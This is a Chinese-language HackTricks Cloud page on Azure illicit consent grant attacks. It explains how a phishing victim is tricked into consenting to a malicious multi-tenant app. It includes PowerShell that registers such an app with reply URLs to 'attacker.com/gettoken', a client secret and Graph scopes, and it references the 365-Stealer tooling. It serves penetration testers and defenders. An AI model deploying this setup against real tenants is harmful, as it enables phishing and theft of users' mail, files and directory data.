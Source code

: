 # Az - 非法同意授权

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>

## OAuth 应用钓鱼

**Azure 应用程序**会请求权限来访问**用户数据**（基本信息，以及访问文档、发送电子邮件等）。\
如果**允许**，普通用户只能授予对**"低影响"权限**的同意。在**其他所有**情况下，**需要管理员同意**。\
`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator` 和包括`授予应用程序权限的权限`的自定义角色可以提供租户范围的同意。

只有**不需要管理员同意**的权限被分类为**低影响**。这些权限是用于**基本登录的 openid、profile、email、User.Read 和 offline\_access**。如果一个**组织**允许用户对**所有应用**进行同意，员工可以同意一个应用程序来**从他们的个人资料中读取上述信息**。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

因此，攻击者可以准备一个**恶意应用程序**，并通过**钓鱼**使用户**接受该应用程序并窃取他的数据**。

### 检查用户是否允许同意

检查用户是否允许同意应用程序：

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **禁用用户同意**：用户无法授予应用程序权限。
* **用户可以同意来自经过验证的发布者或您的组织的应用程序，但仅限于您选择的权限**：所有用户只能同意由经过验证的发布者发布的应用程序和在您的租户中注册的应用程序。
* **用户可以同意所有应用程序**：允许所有用户同意不需要管理员同意的任何权限。
* **自定义应用程序同意策略**

## **什么是非法同意授予攻击？**

在非法同意授予攻击中，攻击者创建一个**Azure注册的应用程序，请求访问诸如联系信息、电子邮件或文档等数据**。然后，攻击者欺骗最终用户同意该应用程序，以便攻击者可以访问目标用户可以访问的数据。在应用程序被授予同意后，它具有用户帐户级别的数据访问权限，无需组织帐户。

简单来说，当受害者点击那个漂亮的蓝色"接受"按钮时，Azure AD会向属于攻击者的第三方网站发送一个令牌，攻击者将使用该令牌代表受害者执行操作，如访问所有文件、读取邮件、发送邮件等。

## **攻击流程**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

为了对公司"ecorp"进行此攻击，攻击者可以注册一个名为"safedomainlogin.com"的域，并创建一个子域["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/)，在其中**托管用于捕获授权代码的应用程序**，然后请求访问令牌。

然后，在Azure AD租户中注册一个多租户应用程序，将其命名为"ecorp"，并添加指向"ecorp.safedomainlogin.com"的重定向URL，该URL托管了一个用于捕获授权代码的应用程序。

攻击者还创建了一个新的客户端密钥，并在应用程序中添加了一些API**权限**，如`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`。因此，一旦**用户同意该应用程序**，攻击者就可以代表用户**提取**敏感信息。

最后，攻击者创建了包含恶意应用程序的客户端ID的**链接**，并与**目标用户**共享该链接，以获得他们的同意。

## 365-Stealer

您可以使用[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)执行此攻击。

作为额外步骤，如果您对受害组织中的某个用户有一些**访问权限**，您可以检查策略是否允许他**接受应用程序**：
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
对于这种攻击，您需要在Azure租户中创建一个**新的应用程序**（在应用程序注册中），例如，具有以下权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`位于`Microsoft Graph`的`委派权限`中。（应用程序权限始终需要额外的批准）。

* `User.ReadBasic.All`是一个权限，如果被授予，将允许您**读取组织中所有用户的信息**。
* 请记住，只有`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`和包括`授予应用程序权限的权限`的自定义角色才能提供租户范围的同意。因此，如果您希望他批准需要管理员同意的**应用程序**，您应该**钓鱼一个具有这些角色之一的用户**。

您还可以通过cli创建一个应用程序：

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

请查看[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)以了解如何配置它。

{% hint style="warning" %}
请注意，获取的**访问令牌**将用于具有以下范围的**图形终结点**：`User.Read`和`User.ReadBasic.All`（请求的权限）。您将无法执行其他操作（但这些足以**下载有关组织中所有用户的信息**）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

您还可以使用此工具执行此攻击。

## 后渗透

一旦您获得了对用户的访问权限，您可以执行诸如窃取敏感文档甚至上传带后门的文档文件等操作。

## 参考资料

* 此帖子是从[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)复制的

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

